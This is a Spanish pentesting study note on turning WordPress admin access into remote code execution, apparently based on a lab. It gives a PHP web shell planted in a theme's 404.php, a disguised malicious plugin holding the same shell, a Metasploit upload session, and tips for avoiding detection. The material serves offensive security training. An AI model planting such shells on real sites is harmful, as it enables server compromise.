

---
tags:
  - Web/Red-Team
  - WordPress
  - Pentesting/Explotacion
Descripción: "Con credenciales de Administrator (02 - Login y fuerza bruta en WordPress), la ejecución de código es casi inmediata: el panel permite editar el PHP del sitio"
Fecha de actualización: 2026-07-17
Nota previa: "[[03 - Explotación de plugins vulnerables]]"
Nota siguiente: "[[05 - Detección y evasión en WordPress]]"
Area: "[[Common Applications.base|Common Applications]]"
---
---

Con credenciales de **Administrator** ([[02 - Login y fuerza bruta en WordPress]]), la ejecución de código es casi inmediata: el panel permite editar el PHP del sitio. Hay tres vías que llevan al mismo sitio — una *web shell* corriendo como el usuario del servidor web.



# Vía 1 · Theme File Editor

En **Appearance → Theme File Editor** (en el WordPress clásico se llamaba solo *Editor*) se edita el código fuente de cualquier tema. Reglas para no fastidiar el ataque:

- <mark style="background: #FFB8EBA6;">Elegir un tema **inactivo**</mark> (p. ej. `Twenty Seventeen` si el activo es otro): editar el tema en producción puede romper el render y delatar la intrusión.
- Modificar un fichero **no crítico** que se invoque con facilidad. `404.php` es ideal: cualquier ruta inexistente del tema lo dispara.

Se inyecta una *web shell* mínima:

```php
system($_GET['cmd']);
```

Y se ejecuta apuntando directamente al fichero del tema con el parámetro `cmd`:

```shell-session
$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"
uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
```

<mark style="background: #FFB86CA6;">Eso es RCE como el usuario del servidor web</mark> (`www-data`, `wp-user`…), el pivote hacia escalada de privilegios en el host.

# Vía 2 · Subida de plugin malicioso

El editor de ficheros no siempre está disponible (ver el gotcha abajo). La alternativa es **subir un plugin**: `Plugins → Add New → Upload Plugin`, con un `.zip` que contenga la cabecera de plugin de WordPress y una *web shell*:

```php
<?php
/*
Plugin Name: totally-legit
*/
system($_GET['cmd']);
```

Tras activarlo, la shell queda en `/wp-content/plugins/totally-legit/<file>.php`. <mark style="background: #FF5582A6;">Funciona aunque la edición de temas esté deshabilitada</mark>, siempre que la subida de plugins siga permitida.

# Vía 3 · Automatización con Metasploit

El módulo `exploit/unix/webapp/wp_admin_shell_upload` hace la Vía 2 por ti: se autentica, sube un plugin malicioso, ejecuta el payload y limpia el fichero, dejando una sesión Meterpreter.

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(...) > set RHOSTS blog.inlanefreight.com
msf6 exploit(...) > set USERNAME admin
msf6 exploit(...) > set PASSWORD sunshine1
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > run
[+] Authenticated with WordPress
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: www-data (33)
```

Opciones clave: `USERNAME`/`PASSWORD` (requieren rol con permiso de subida), `TARGETURI` (ruta base de WordPress, `/` por defecto) y, en labs con *virtual hosting*, `VHOST` con el dominio.

> [!warning]+ Gotcha real: `DISALLOW_FILE_EDIT`
> En entornos serios la edición de ficheros suele estar **capada**: `define('DISALLOW_FILE_EDIT', true);` en `wp-config.php` oculta el Theme/Plugin File Editor, y los hostings gestionados (WP Engine, Kinsta, WordPress.com) lo desactivan de fábrica. <mark style="background: #8000E1A6;">Si no ves el editor, no es que no seas admin — es hardening</mark>. Ahí la Vía 2 (subida de plugin) o explotar un plugin vulnerable ([[03 - Explotación de plugins vulnerables]]) son más fiables. Muchos plugins de seguridad además **alertan** ante ediciones de ficheros, así que estas técnicas son ruidosas: en bug bounty, valóralo antes de ejecutar.

Estas técnicas asumen que llegas como admin. Cuando el objetivo está endurecido, entender qué defensas hay y cómo esquivarlas es lo que marca la diferencia: [[05 - Detección y evasión en WordPress]].
